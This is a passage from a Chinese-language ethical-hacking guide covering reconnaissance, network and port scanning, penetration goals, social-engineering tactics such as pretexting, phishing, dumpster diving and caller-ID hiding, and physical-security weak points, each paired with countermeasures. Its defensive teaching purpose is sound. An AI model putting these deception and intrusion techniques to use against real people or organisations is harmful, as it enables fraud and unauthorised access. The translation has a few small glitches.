* 输入关键词。你可以在数百万页面中找到相关信息。访问电话、文件和地址也是可能的。
* 执行高级网络搜索。`Google` 有一些高级搜索选项，你还可以找到一些可以链接回特定公司网站的站点。此类搜索将确保你获得了有关目标公司内部供应商、合作伙伴和客户的相关信息。
* 通过使用开关更深入地挖掘公司的网站。

2. **网络爬虫**：网络爬虫工具包括网站复制器 `HTTrack`，你也可以通过下载一些公开访问的文件来镜像公司。你也可以在离线下检查网站。你可以挖掘以下领域：
    * 网站的布局和配置。
    * 可能不易访问的文件和目录。
    * 脚本源代码和 HTML 代码也可以被轻松访问。
    * 命令字段。

某些注释字段还包含可能证明有用的信息，包括电子邮件地址和内部 IT 人员的姓名、开发者、软件版本、服务器名称、关于代码如何工作的某些注释以及 IP 地址方案。

3. **网站**：有一些网站可以提供关于各种组织及其员工的各种信息。


### 4. 映射网络
当你对网络进行映射时，可以去搜索一些公共资源和数据库，查看人们可能对你的网络了解哪些信息。这些网站中包括互联网上随处可得的 `Whois` 工具，这些工具也可用于检查互联网上可用的一些域名。在开始社会工程学攻击或扫描网络时，这种工具会非常有用。

### 5. Google Groups
`Google Groups` 可以帮助揭示有关组织的网络信息。通过此类平台可以获取的一些信息包括 IP 地址、域名和用户名。你还可以获取其他形式的私有信息，包括：

- 显示了过多关于当前网络和计算机系统信息的留言板。许多人在此类平台上发布信息，但他们并没有意识到这些信息正在分享给全世界。
- 关于公司的机密信息，这些可能由客户和员工发布。

在发现某些机密信息已在某些在线平台上共享后，你应该将其删除。

### 6. 隐私政策
始终检查你网站上的隐私政策。你的所有用户都需要了解他们在访问你的网站时收集了哪些信息。此外，他们应该知道自己的信息是如何受到保护的。隐私政策通常由律师编写，他们不会深入研究有关你安全基础设施的信息。

### 7. 扫描系统
通过进行主动信息收集，你可能获得更多关于你网络的详细信息，你也可以从黑客的角度来看问题。例如，你可以执行以下操作：

- 利用通过 `Whois` 搜索收集到的信息，测试每个紧密相关的主机名和 IP 地址。这些信息包括主机名的确定、IP 地址、运行的协议、可用的共享、开放端口、应用程序和正在运行的服务。
- 扫描内部主机并遵守你的测试范围。某些外部人员无法查看这些某些主机；尽管如此，你仍需要测试它们，以便查看某些别法个人可能访问的范围。

在某些情况下，黑客可能已经访问了系统，并且可以从内部操纵任何东西。为了安全，你应该检查整个系统以寻找任何漏洞。如果你不认为你的扫描系统是可靠的，可以在虚拟机软件上运行不同的系统。

### 8. 主机
在扫描过程中，同时也记录一些内部网络内可以访问的主机。始终从使用这些工具 ping（探测）一些主机名开始：

- 操作系统内置的基本 `ping` 实用程序。
- 第三方工具允许人们 ping 多个地址，包括 `SuperScan` 和 `NetScanTools Pro`。你也可以使用如 `whatismyipaddress.com` 等网站来显示你在浏览互联网时网关 IP 地址是如何呈现的。该网站将让你看到外部人员可以看到的 IP 地址。

### 9. 开放端口
你可以使用不同的工具扫描开放端口，包括：

- `Nmap` 和 `Superscan` 可以帮助扫描网络端口。
- 你可以使用网络分析器监听网络流量。你可以使用的工具包括 `Wireshark` 和 `OmniPeek`。

在内部进行扫描很容易。你应该将计算机连接到网络并加载不同形式的软件。你也可以在网络外部进行扫描，在插入路由器之前，应先为你的计算机分配公网 IP 地址。在这种情况下，你的计算机没有连接互联网。无论你是否连接到互联网，连接都可以正常。

此外，你还需要确定开放端口上运行着什么。作为一名伦理黑客，在执行扫描过程后，你应该获取此类信息。

你可以访问的信息包括：

- 正在使用的协议
- 在主机上运行的服务，可能包括数据库应用程序、Web 服务器和电子邮件
- 可用的远程访问服务，可能包括远程桌面
- `VPN` 服务
- 网络共享所需的身份验证

### 漏洞评估
在找到所有安全漏洞后，你应该继续深入研究你网络中存在的某些漏洞。在测试过程之前，你还应该进行手动搜索。你可以对黑客使用的留言板、漏洞数据库和网站进行研究。

一些机密网站有助于列出不同的漏洞。在寻找这些某些漏洞时，你会发现其中某些漏洞具有某种通用性。有时，你可能被迫查看某些厂商的网站，以便了解更多关于当前的漏洞。一些可以展示不同漏洞的网站包括 www.sans.org/top20。该网站帮助展示了超过 20 种漏洞。漏洞列表由 `SANS` 组织编制。

如果你认为没有必要研究网络中存在的某些漏洞，可以继续进行渗透测试。你拥有的一些选项包括：

1. **手动评估**：你将能够通过与端口建立连接来评估某些潜在漏洞。某些系统也可以进行手动评估，包括一些 Web 应用程序。如果你有大量时间，可以手动执行这些这些测试。
2. **自动评估**：手动评估特别适用于当你想要学习时，然而，主要问题是大多数人没有时间处理所有这些手动步骤。你可以自动扫描漏洞。还有许多你可以使用的漏洞评估工具，它们可以在 `UNIX` 和 `Windows` 等平台上可用。在无线和有线网络上使用这些评估工具也是可能的。在使用这些工具时，你还可以绘制一张业务逻辑图。软件开发者也可以使用这些工具来测试他们的代码行是否存在不同的缺陷。使用这些工具时的主要问题是它们只扫描单个漏洞。

如今，某些工具支持事件关联，可以一次扫描多个漏洞。你可以用于扫描漏洞的工具包括 `QualysGuard Suite`。这些工具可以在扫描端口的同时寻找任何存在的漏洞。此外，如果你使用 `QualysGuard Suite`，则不需要使用计算机，因为该工具以 `SaaS`（软件即服务）的形式提供。你可以随时登录 `Qualys` 网站并注册账户。你需要支付一定金额，因为该工具用于商业目的。然后输入你需要测试的特定 IP 地址。你也可以将 `QualysGuard Suite` 安装到你的网络中，它将扫描所有内部系统。评估可以安排计划，系统将在运行测试的同时生成一些详细的报告。报告将包含有关扫描的一些常规信息。当前漏洞的细节也将列出。


在使用如 `QualysGuard Suite` 等工具评估网络中存在的漏洞时，你必须具备一些后续专业知识，因为你不能仅仅依赖扫描结果。必须对漏洞报告进行验证。你应该全面研究这些报告，并对系统进行批判性测试。

## 渗透系统

你可以通过以下方式识别网络中的某些安全漏洞：

1. 确保你已获取有关主机和当前数据的足够信息。
2. 确保存在远程命令提示符。
3. 启动或停止某些应用程序。
4. 访问不同的系统。
5. 禁用不同的安全控制。
6. 截屏。
7. 访问某些敏感文件。
8. 以管理员身份发送电子邮件。
9. 执行某些 SQL 注入攻击。
10. 发起 `S` 攻击。
11. 上传文件以证明你的胜利。

你可以使用 `Metasploit` 框架来利用某些漏洞。其中一些漏洞允许你完全渗透系统。你需要决定是否要完全渗透你的系统，并确保你已经证明了某些漏洞的存在。

## 第 5 章：社会工程

在本章中，重点将放在以下领域：

* 介绍社会工程学
* 社会工程学的后果
* 学习更多不同的社会工程技术
* 如何保护你的组织免受社会工程学的攻击

社会工程学是一种利用组织内部某些薄弱环节的技巧。其重点通常放在安全防御上。社会工程学可以比作“人类黑客”。它涉及到对人类拥有的信任本性的恶意利用。黑客确保他们能够获取一些个人信息，并利用这些信息获利。社会工程学的主要问题是需要大量时间，而且人必须非常熟练，因为他们面对的是完全的陌生人。在本章中，重点将是社会工程学的后果。我们还将介绍一些保护你的组织免受社会工程学攻击的方法。

### 关于社会工程学

恶意用户通常伪装成他人，以便获取无法通过其他手段访问的个人信息。他们可以利用获取的信息黑入特定网络。他们获取的信息可以允许他们偷取和删除不同的文件。恶意用户还可以进行其他形式的欺诈。社会工程学与物理实施的各种利用也不同。一些著名的物理利用包括翻垃圾桶（dumpster diving）和窥视视（shoulder surfing）。

社会工程学的不同示例包括：

* **虚假支持人员**：他们通常声称必须在目标计算机上安装某些新版本的软件。他们通常诱导用户下载软件。之后，恶意用户就可以远程访问网络。
* **虚假供应商**：他们声称需要更新特定系统，并向管理员索要密码，以便获得完全访问权限。
* **钓鱼邮件**：此类邮件通常由某些外部黑客发送。他们主要收集各种形式的信息，包括目标用户的 `IDs` 和密码。这些密码可以被用于访问目标的银行账户等。有时，外部攻击者可以执行跨站脚本攻击。接下来的章节也将会有关于网络应用程序安全的讨论。
* **虚假员工**：在大多数情况下，他们通常会联系保安室并编造各种谎言。他们可能会说自己丢了钥匙，无法进入机房。然后他们会获得一套钥匙，并进入机房。之后，他们可以访问有关组织的一系列电子和物理信息，然后网络就会变得脆弱。

有时，社会工程工程师会伪装成知识渊博的员工。例如，他们可以充当经理甚至高管。他们甚至可以伪装成天真的员工。他们可以承担的角色包括担任维护人员和 IT 顾问。社会工程工程师还适应不同的角色。他们总是根据所处理的人员切换不同的模式。

有效的信息安全涉及确保组织不会易受社会工程学攻击。为了确保你的组织不易受到此类攻击，你需要跟踪所有的用户。可以部署的措施包括确保有防火墙、加密和入侵检测系统。组织可以通过上述技术确保其信息安全。如果外部攻击者成功绕过所有这些防御系统，你组织内部的网络将变得脆弱。

社会工程学需要高超的技巧，并且高度依赖于人的性格以及他们对目标组织的了解。如果社会工程学对你来说不是很自然，你首先需要学习更多这种艺术。你也可以聘请第三方来帮助收集有关目标组织的信息。

在学习更多社会工程学之后，你可以设计某些技术，这些技术在确保你的组织网络安全时会有用。社会工程学还会损害某些个人的声誉，因为它涉及到对人们个人信息的收集。不同人的声誉可能会受到威胁，因为外部黑客将更关注获取有关这些人的机密信息。谨慎行事是好事，在采取行动之前你应该考虑行为的后果。

有许多方法可以进行社会工程学攻击。在书中，我们不会重点培训人们如何执行社会工程学攻击。重点将放在某些已被证明行之有效的社会工程技术上，例如不同外部攻击者的案例。你也可以根据你的需求使用其中的一些技术，使其适合你的情况。

如果你想在组织内部执行这些某些技术，你可能想扮演一个外人的角色，但主要问题可能是公司的大多数人都认识你。身份识别是一个主要风险。在某些情况下，从信任的人那里外包某些服务是好的，让他们代表你进行其中的一些测试。处理测试过程的人员也应该是值得信任的。如果你正在寻求外部服务，可以从寻找推荐开始。之后，背景检查可能会很有帮助。

## 外部攻击者使用社会工程学的原因


大多数外部黑客使用社会工程攻击是因为他们可以而为之。他们希望确保网络黑客过程尽可能简单。当一个社会工程工程师决定侵入某个网络时，他们将绕过访问控制、防火墙以及现每一个身份验证设备。在大多数情况下，社会工程工程师行动非常缓慢，因为他们想避免被捕获。此外，他们不想引起任何形式的怀疑。社会工程工程师总是循序渐进地收集碎片信息，并根据他们计划的攻击类型，利用所有这些信息来构建一个更大的蓝图。通过电子邮件或电话进行个人攻击是可能的。社会工程攻击期间使用的方法通常取决于攻击者的能力。

社会工程工程师还清楚，某些组织没有正式的数据分类、事件响应计划、访问控制系统和安全意识计划。他们总是会利用此类弱点，并为了自己的利益为其所用。社会工程工程师还掌握关于该组织内部和外部的一些信息。他们拥有的知识有助于他们促进这些攻击的实施。

当社会工程工程师收集了大量关于组织的信息时，他们可以轻松伪装成员工或组织内的任何其他受信任人员。社会工程工程师拥有的知识将使他们处于优势地位，并对组织内员工的运作方式有深入的理解。

### 理解社会工程的后果

许多组织都有竞争对手。这些竞争对手在某些时刻可能会变成敌人；这些敌人也可能认为通过社会工程制造一些麻烦是合适的。除了竞争对手，敌人还可能是前员工或目前在组织内工作的人。有时，黑客之所以实施社会工程攻击是因为他们想证明自己的专业能力。

无论制造麻烦的人是谁，要考虑的主要因素是每个组织始终处于风险之中。互联网可以促进信息收集过程，同时也促进不同类型的攻击。最脆弱的是规模化的公司；尽管如此，小型公司的网络也可能受到攻击。组织内的每位员工无论在组织中的职位如何，都可能成为社会工程攻击的受害者。对于帮助台员工来说，他们非常脆弱，因为他们负责发布不同的信息。

所有的社会工程攻击都有不同的后果。攻击的主要目标是收集信息，这些信息也将用于攻击组织的网络。社会工程工程师可以有效地收集以下信息：

*   用户密码
*   可进入机房的安全胸章
*   知识产权
*   机密财务报告
*   消费者和销售潜在客户名单

如果列出的任何信息泄露，公司可能会遭受财务损失，员工可能会士气低落，会出现一些监管和法律合规问题，客户也可能失去对特定组织的信任。社会工程攻击不易被记录，这就是为什么它们不能被轻易防止。社会工程攻击的主要问题是可以使用许多方法。防火墙也营造了一种虚假的安全感。

对于社会工程而言，你永远无法预测攻击者将使用的具体方法。要采取的最好步骤是确保在保持警惕的同时，也尝试理解外部黑客所使用的方法。通过这样做，你可以在组织内部提高一些意识。

### 实施社会工程攻击

实施社会工程攻击的过程相当简单。社会工程工程师在着手执行攻击之前，需要研究一些组织流程和信息系统。当攻击者拥有了这些信息时，他们就可以着手制定他们的目标，因为他们将对方向有一个明确的感悟。

社会工程工程师在攻击过程中使用的使用的步骤如下：

1. 进行一些研究
2. 建立信任
3. 利用某些关系获取不同的信息
4. 使用收集到的信息进行某些恶意攻击

这些步骤中的一些还有许多子步骤，并且在过程中应该使用不同的技术。一切取决于正在执行的特定攻击。

在外部攻击者实施社会工程攻击之前，他们必须制定不同的目标。这些目标确保他们正在朝着特定的目标努力。在目标形成过程中，攻击者应该问自己他们想实现什么，以及他们正试图破解什么。有时，主要焦点可能在安全胸章和服务器密码上。在某些情况下，黑客可能试图证明自己的实力力。

### 钓鱼信息

在社会工程工程师想出目标后，他们就可以从容地开始攻击。他们将开始收集有关受害的一些信息。为了避免引起任何警报，社会工程工程师总是行动缓慢。由于信息收集是社会工程中的重要一步，加强某些可能阻碍此类过程的安全措施是可能的。无论黑客使用何种研究方法，黑客过程中需要的关键信息包括内部电话号码、员工名单和公司日历。

### 使用互联网

互联网被用作基础研究媒介。通过搜索引擎可以访问大量信息。最重要的是你需要收集正确的关键词。通过收集不同的信息，你可以实施社会工程攻击。有时，人们会向某些专业人士支付费用，他们可能会进行全面的背景调查。搜索可以允许你获取关于特定个人的私有和公开信息。

### 翻垃圾桶

翻垃圾桶在某种程度上是有风险的，而且非常杂乱；尽管如此，在寻找特定信息时它非常有效。当使用这种方法时，你必须翻遍垃圾桶以寻找有关特定公司的信息。翻垃圾桶还可以允许你获取一些机密信息，因为员工可能会认为，当某些信息被丢进垃圾桶时，其他人员是无法使用的。你丢弃的一切都可能隐藏着一些重要信息。社会工程工程师总是寻找以下类型的文档：

*   组织结构图
*   内部电话列表
*   员工手册（其重点将是安全政策）
*   密码列表
*   网络拓扑图
*   表格和报告
*   会议记录
*   包含某些敏感信息的电子邮件打印件

碎纸机派得上用场，但只有当纸张被碎成无法重新组合的微小碎片时才适用。有些碎纸机会将纸张碎成长条。社会工程工程师总是会组合这些纸张，然后就能获得一些机密信息。他们只需要花一些时间并使用透明胶，文档就会被拼在一起。


黑客可以从咖啡店或餐厅等场所发生的对话中收集一些机密信息。从那些在接听电话时大声说话的人那里，也可以收集到敏感信息。在某些情况下，外部攻击者还会寻找被丢在垃圾桶里的 `DVDs` 和 `CD-ROMs`。

## 电话系统

攻击者可以利用语音信箱系统中内置的“按名称拨号”功能获取不同的信息。在通过某人的语音信箱联系公司后，只需按下 `0` 即可访问此类功能。这种技巧在非工作时间尤为方便。在这些时段，没有人会接你的电话。攻击者还会使用某些技术来确保他们的身份不被发现。黑客使用的某些技术包括：

- **住宅电话**：此类电话可以帮助隐藏用户的主叫显示。你只需要在拨打想要通话的特定号码之前输入 `*67` 即可。
- **办公电话**：在任何企业中，使用电话交换机时可能很难伪造。攻击者需要组织内部使用的电话交换机软件的用户指南以及管理员密码。在某些交换机中，可以输入源号码。该号码也可以被伪造。
- **VoIP 服务器**：可以找到许多开源服务器，它们也可以被用于配置任何号码。社会工程工程师在使用此类技术时，可以发现一些重要信息。攻击者可以通过播客和语音信箱消息听取不同的信息。他们还可以研究受害者的声音，当需要物理访问组织时，他们能够完美地模仿他们。

## 建立信任

信任无法轻易获得，也可能轻易失去。社会工程学高度依赖信任。

除非情况非常危急，否则人们会彼此信任。在大多数情况下，人都是善良的，如果他们之间建立了一些信任，某些请求可能看起来是合理的。人们在工作中喜欢以团队形式合作。主要问题是，其中一些人并不理解在向“信任”的来源发布大量信息时可能会产生什么后果。

社会工程工程师利用这种信任，他们会确保无论何种都能实现目标。一些社会工程工程师可以轻松获得组织内某些员工的信任。社会工程工程师使用以下技术来赢得人们的信任：

- **亲和力**：与友善的人很容易产生共鸣，这就是为什么社会工程工程师表现得友好。他们在任何情况下都不会做得过头，因此可以轻松获取所需的信息。社会工程工程师还会花时间与他们有共同兴趣的人建立关系。他们可以利用获得的信息来确定受害者的喜好。
- **可信度**：社会工程工程师倾向于了解自己是否具有亲和力。社会工程工程师总是利用伪装来获利。他们可以伪装成新员工，并总是接触组织内那些物理上不认识他们的人。他们非常有影响力，并且可以做好事，以此引诱他们的目标。有时，他们可能伪装成团队合作者，试图与组织内的某些员工建立关系。

## 利用人关系

在获得某些员工的信任后，社会工程工程师可以轻松强迫他们放弃不同的信息，这些信息在网络黑客过程中可能有用。

## 使用言语和行为欺骗

社会工程工程师会利用不同的技术从每位受害者那里获取一些内部信息。他们会发起对话，并确保受害者不会怀疑任何。如果社会工程工程师在执行社会工程攻击时动作粗心，他们很容易被发现。一些红旗信号包括：

- 提到公司内知名员工的名字
- 表现得很急切
- 吹嘘自己在组织内的权威
- 发出某些威胁
- 表现得紧张（肢体语言说明了很多问题，并且很容易出卖他们）
- 经历不同的心理变化
- 对某些细节进行过分强调
- 可能看起来很匆促
- 拒绝提供某些信息
- 主愿提供不同的信息，同时回答一些他们未被问到的问题
- 拥有外部人员无法的信息
- 问一些奇怪的问题
- 在组织内部使用俚语
- 拼写错误某些单词

专业的社会工程工程师会确保自己不粗心，并隐藏自己的动机。他们会先给予受害者一个人情，然后反过来寻求一些帮助。许多人掉入了这个陷阱。社会工程工程师主要针对的是一些毫无防备的员工，并会寻求帮助。对于社会工程工程师来说，伪装很容易。他们有虚假的工牌和 `ID`，这样他们就可以很容易融入组织。这种技巧已被证明非常有效。有时，这些人还会执行反向社会工程学。

## 使用技术欺骗

技术确保某些事情对社会工程工程师来说更容易。某些恶意请求是通过计算机或任何电子设备发出的。伪造电子邮件地址、计算机名称、网络地址和传真号码等细节也很。

黑客可以利用技术轻松地欺骗目标。他们可以使用电子邮件向受害者索要关键信息。社会工程工程师通常会在这些电子邮件中附加链接，受害者将被重定向到一个看起来合法且体面的网站。使用上述技术可以访问的一些信息包括密码、用户 ID 和社会安全码。外部攻击者还可以在 `Myspace` 和 `Facebook` 等平台上使用此类技术。

一些钓鱼信息和垃圾邮件利用这种技术。用户被强迫使用不同的技术降低警备，他们最终可能会打开某些附件。电子邮件也呈现得非常专业。受害者被骗披露不同的信息。黑客在访问网络后，总是会部署这些社会工程技术，以便他们轻松地发送一些消息并创建弹出窗口。在某些情况下，外部攻击者会伪装成 `Microsoft` 员工或供应商。在受害者安装 `patch` 之后，他们的计算机就会被 `Trojans` 和 `worms` 等程序感染。攻击者随后可以在网络内部创建一个后门，以此获取不同的信息。后门将允许攻击者利用受害者的计算机自由地访问不同的信息，他们还可以启动不同的攻击。`worms` 和 `Trojans` 在执行社会工程攻击时可以派上用场。


蠕虫有多种。当受害者打开某些垃圾邮件后，一切已经为时晚了。计算机已经被感染，而他们将无法实现最初的目标。一些利用技术进行的社会工程攻击是匿名执行的。攻击者将利用互联网代理服务器、邮件重发器、匿名化工具以及一些 `SMTP` 服务器来确保存在开放式中继（open relay）。当人们在某些被要求提供某些机密个人信息的情况下成为受害者时，他们应该知道无法追踪到社会工程攻击的来源。

## 如何反击社会工程攻击

有多种方法可以保护你的网络免受社会工程攻击的影响。尽管安全系统可能很强大，但某些天真的网络管理员可能会被社会工程工程师操纵。

某些安全策略可以确保社会工程师无法访问网络，这些包括：

> ✓ 数据分类
> ✓ 为所有员工和承包商设置用户 ID
> ✓ 移除不再在组织内工作的员工 ID
> ✓ 建立可接受的计算机使用规范
> ✓ 重置并设置密码
> ✓ 妥善处理机密信息
> ✓ 相应响应某些安全事件
> ✓ 陪同访客

这些策略中的某些可以适用于组织内的所有员工。策略还应该保持组织内所有人员的更新。终端用户也应该被通知某些策略的变更。

防止社会工程攻击的最佳防线是拥有的经过良好培训的员工，他们知道如何应对不同的社会工程攻击。通过确保提高意识，社会工程攻击可能根本不会发生。在培训过程中，重点应更多地放在某些安全策略上。你也可以外包安全培训服务。员工也应该认真对待安全培训。一些帮助你从长远上消除社会工程攻击的提示包括：

* > 安全意识和培训应被视为一种业务投资。
* > 用户还应接受培训，使其时刻意识到某些安全策略。
* > 确保员工负责公司内部某些隐私和安全任务。
* > 确保培训内容已根据你组织的需求量身定制。
* > 制定一个与你的业务功能相符的社会工程意识计划。
* > 确保你的信息是非技术性的。
* > 为报告和预防某些事件制定激励计划。
* > 始终以身作则。

还有一些你可以与公司内部员工分享的提示：

* > 除非你能够证实他们确实是他们声称的人，否则你不能与他人分享某些机密信息。有时会通过电话提出请求，在这种情况下，你应该先验证来电者的身份。
* > 不要点击任何将你重定向到需要更新的网站的电子邮件链接。此类邮件通常来自不可信的来源。
* > 在 LinkedIn 和 Facebook 等不同网站上分享某些机密信息时，始终要警惕。时刻留意那些声称是你的“朋友”的人。他们中的某些可能有恶意动机。
* > 永远不要打开陌生人的邮件附件。
* > 陪同建筑内的每一位访客。
* > 不要提供你的任何密码。

其他合适的建议包括：

* > 无论是有线还是无线网络，陌生人都不应轻易访问你的网络。攻击者在访问几秒钟后，可以在网络中放置恶意软件和网络分析器。
* > 所有信息都应进行分类。员工还应接受如何处理不同信息的培训。
* > 开发某些旨在执行计算机媒体和文档的策略。这些策略将确保数据可以被谨慎处理，并留在它们应该在的地方。
* > 首选的碎纸机应交叉粉碎。有些公司提供碎纸服务，并且他们提供高质量的服务。

在强化正式培训内容时，一些实用的技巧包括：

* > 培训启动仪式和员工入职培训
* > 包含有关如何在社会工程攻击中生存信息的手册
* > 可用作鼠标垫、屏幕保护程序和便利签的小摆件

## 第 6 章：物理安全

在本章中，主要重点将放在：

> ➢ 学习物理安全的重要性
> ➢ 寻找不同的漏洞
> ➢ 在发生攻击时实施某些应对措施

物理安全涉及保护物理形式的财产。重点应放在非技术性和技术性组件上。

物理安全在某些情况下被忽视，但它是信息安全计划的一个重要方面。如果你能从物理上保护你的场所，你也可以轻松地保护不同的信息。在本章中，我们将讨论一些目前的物理安全缺陷及其与信息和计算机网络安全的关系。还将概述一些合适的应对措施，它们将帮助你减少业务内部的物理漏洞。在进行物理安全测试时，你应该突破系统。使用外部人员的视角是好的。在测试阶段，你还可以发现一些需要密封的安全漏洞。

## 物理漏洞

无论你的计算机网络使用什么技术，它可能被不同的技术被破解，这就是为什么我们正在研究一些物理安全漏洞以及如何修复它们，以便外部攻击者无法利用这些漏洞。某些物理漏洞在某些小型公司中可能不是一个主要问题。影响不同物理漏洞的因素包括：

* > 建筑数量
> > 建筑的大小
> > 员工人数
> > 出口所在地
> > 机密信息的放置位置

存在许多物理安全漏洞。外部攻击者将时刻监视这些物理漏洞。为了保持安全，你应该首先寻找这些物理漏洞。之后，你可以为这些安全问题寻找合适的解决方案。组织内部存在的某些物理漏洞包括：

* > 缺乏接待员
> > 未能在建筑内陪同访客
> > 某些员工可能会信任某些访客，因为他们可能穿着供应商制服，并可能声称是为了处理机房的某些问题。
> > 门可能缺乏访问控制。
> > 安全监控可以通过网络访问。
> > 计算机房可能被公众轻易进入。
> > 门被敞着。
> > 备份媒体可能被随意存储。
> > 可能存在未安全的笔记本和其他计算机硬件。
> > 包含敏感信息的 DVD 和 CD 可能被轻率地丢进垃圾桶。


当某些物理安全漏洞被利用时，最终可能会发生一些糟糕的事情。主要问题是未经授权的人员可能会进入建筑。入侵者进入建筑后，他们可以进入机房，在此过程中，组织的网络将受到破坏。未经授权的用户还可能窃取某些信息，并利用这些信息来获取自身利益。

外部攻击者还将利用所有的物理漏洞，包括办公室布局、建筑基础设施以及机房设计中可能存在的弱点。在某些情况下，你还应该考虑建筑与警察局、消防站等设施的距离等因素。地区的犯罪统计数据也很重要，因为它们能确保你了解自己面临着什么样的威胁。

在评估公司内部的物理安全时，考虑在此背景下讨论过的某些漏洞也是好的。评估过程不需要任何昂贵的工具或设备。此外，你所拥有的专业知识在物理安全评估过程中也不会成为阻碍。对于大型设施，评估周期可能会花费大量时间。在评估过程中你需要保持务实。

## 建筑基础设施

建筑的一些关键组件包括窗户、门和墙壁。考虑机房的基础设施是好的，因为一些敏感数据存储在那里。

### 攻击点
外部攻击者将利用某些建筑基础设施的漏洞。应该被忽视的某些攻击点包括：

* > 门开着吗？如果是，为什么要开着？
* > 任何设备可以穿过机房门上的某些缝隙吗？此外，如何触发机房内的传感器？
* > 某些门容易打开吗？
* > 建造机房时使用了哪些材料？机？机房的墙壁足够坚固吗？施工过程中使用的材料能够抵御地震等灾害吗？
* > 窗户或门是玻璃制成的吗？合链安装在哪里？施工过程中使用了哪种类型的玻璃？
* > 建筑内的门窗上安装了先进的警报系统吗？
* > 是否有吊顶花板？是否有可以推开的顶板？

评估设计过程可以确保你能够更多地了解目前的物理漏洞。

### 应对措施
某些应对措施可能需要进行某种形式的维护。你可以聘请一些专家，他们在建筑设计过程和施工阶段提供协助。确保你的建筑内部安全达到顶尖的一些最佳技术包括：

* > 使用坚固的门和锁。
* > 确保警报系统受到持续监控。在所有访问点还应放置基于网络的 CCTV 监控摄像头。
* > 机房应该有没有窗户的墙。
* > 出口处应有良好的照明。
* > 建筑内的某些地点还应设置人笼（Mantraps）。
* > 围可以使用铁丝网制成。

## 公用设施

考虑机房使用的某些公用设施是好的。这些设施包括电力、灭火和水。在物理安全评估过程中应始终考虑这些因素。这些设施在应对火灾事故时以及确保在停电事故期间所有访问控制系统都能正常运行时非常有用。

### 攻击点
入侵者可以利用某些与用设施相关的漏洞。通常被忽视的某些常见攻击点包括：

* > 保护设备，包括发电机和浪涌保护器。有时，它们非常容易接触，外部攻击者可以轻易地开关它们。
* > 当断电时，采取了哪些物理安全机制？始终评估物理安全机制是否运行良好，因为在断电时人们很容易进入机房。
* > 正在使用何种灭火和探测设备？它们位于何处？这些设备包括灭火器、报警传感器和喷淋系统。始终确定外部攻击者是否可以操纵这些每一个设备。
* > 燃气和水阀门位于哪里？可以轻易访问吗？
* > 本地电信电线是在建筑外地上上还是地下？根据它们的位置，有人是否可以接入电信线？任何挖掘活动会损坏电信线吗？如果电信线位于电线杆上，它们是否容易受到可能导致其位移的交通事故的影响？

### 应对措施
在物理漏洞评估期间引入一些专家是好的。他们将在设计过程中提供帮助。主要的布局包括：

* > 主要公用设施控制装置的位置。它们应该位于可以锁上的闭门内。
* > 建筑内的任何人都能方便地访问这些控制装置吗？开关罩充当了有效的防御机制。

## 办公室布局与用途

办公室的设计和用途在确保物理安全时非常有用。

### 攻击点
外部攻击者将利用某些办公室漏洞。应该考虑的某些攻击点包括：

* > 调查保安员或接待员是否监控建筑内的流量。
* > 员工是否拥有放在桌子上的机密信息？他们的邮件和不同的包裹是否散落在四周，导致外部人员可以轻易访问？
* > 垃圾桶的位置也重要。垃圾桶不应被外部人员轻易访问。此外，办公室内有碎纸机吗？

外部攻击者在寻找可能被轻率处置的信息时，总是会翻垃圾桶。他们总是寻找备忘录和电话列表。翻垃圾桶是危险的，因为它可能会让你的公司陷入困地。

* > 复印室和邮件室安全吗？

如果外部攻击者可以轻易进入这些房间，他们就可以窃取一些重要信息并利用它们对付你。

* > CCTV 摄像头是否全天候监控？
* > 门窗上有哪些访问控制？部署了哪些安全措施？如果有普通钥匙，谁可以接触它们？

不同的用户通常会共享一些信息，包括可编程键盘的组合。这需要问责制。始终确保你跟踪了使用某些钥匙和组合的人数。

### 应对措施
可以实施某些措施来减少组织的暴露风险，这些包括：

* > 保安员和接待员应该记录出入建筑的人。这种应对措施至关重要。确保每位访客都签署了登记簿。此外，不可信任的人员也应有人陪同。

执行某些政策，让员工始终询问陌生人，并报告建筑内发生的任何奇怪行为。还应放置一些显示“员工专用”的标牌。


- ✓ 建筑内应只有一个出入口。
- ✓ 视频摄像头（CCTV）
- ✓ 垃圾桶应放置在安全区域。
- ✓ 在处理包含某些敏感信息的纸质文档时，建议使用断孔式碎纸机。
- ✓ 密码组合的数量也应该受到限制。
- ✓ 生物识别系统也应该是有效的。

## 网络组件与计算机

在外部攻击者获得获得目标建筑的物理访问权限后，他们将开始寻找机房。他们还会寻找任何可用的计算机设备。

### 攻击点
进入机房后，外部攻击者将利用不同的技术渗透网络。恶意攻击者可以实施以下行为：

- ✓ 冒充为组织内的登录用户获取网络访问权限并发送垃圾邮件。
- ✓ 在启动过程后直接从计算机中破解并获取密码。可用于破解密码的工具包括 `Ophcrack Live CD`。
- ✓ 从计算机中窃取文件，外部攻击者将使用移动存储设备。
- ✓ 进入未锁的电脑机房，并篡改防火墙、服务器以及 `routers` 等网络设备。
- ✓ 拿走联系列表、网络拓图和某些应急响应计划。
- ✓ 获取电话号码等信息，这些信息可用于未来的攻击。

外部攻击者可以访问网络上所有的加密信息。他们可以在未来使用以下技术分析信息：

- ✓ 将网络分析器连接到如 `router` 等设备。
- ✓ 确保网络分析器连接到组织内部现有的计算机。
- ✓ 远程管理软件也很有用。
- ✓ 某些攻击者还可以在防火墙之外的情况下将公共 IP 地址绑定到计算机上。一些经验丰富的黑客还可以配置防火墙规则以适应其需求。
- ✓ 是否可以定期访问计算机？是否可以在办公时间之外访问计算机？
- ✓ `routers`、防火墙和交换机是否安装在可锁的柜中？
- ✓ 笔记本电脑是否存放在有安全锁的桌子里？硬盘是否经过加密？
- ✓ 密码是否存储在桌面便利签等易于获取的地方？
- ✓ 备份媒体是否存储在保险箱中？保险箱的等级是否足够在火灾时不会融化？谁可以访问保险箱？
- ✓ 计算机上的备份媒体是否容易被盗？

智能手机等其他技术设备是否不安全？这些设备具有价值，外部攻击者将确保能够访问这些每台设备。其中某些设备没有受到组织内部某些安全协议的保护。对于这些中的每一个设备，即使是外部攻击者尝试访问其中的信息也会遇到困难。需要考虑的一些主要因素包括：

- ✓ 无线访问点信号是否可以被轻易访问？如果不安全，请确保你配置了必要的安全协议。
- ✓ `routers`、防火墙、集线器和交换机是否容易被访问？这些考虑非常重要，以确保网络不会被外部攻击者轻易访问。
- ✓ 是否有线锁以确保网线不会被黑客拔掉？

### 应对措施
提到的某些应对措施很容易实施；然而，由于需要人员频繁跟进，这些措施可能难以执行。以下是一些见解：

- ✓ 它们要求你在离开计算机后锁定屏幕。
- ✓ 始终使用强密码。
- 笔记本电脑用户应妥善存放其笔记本电脑，防止第三方访问。
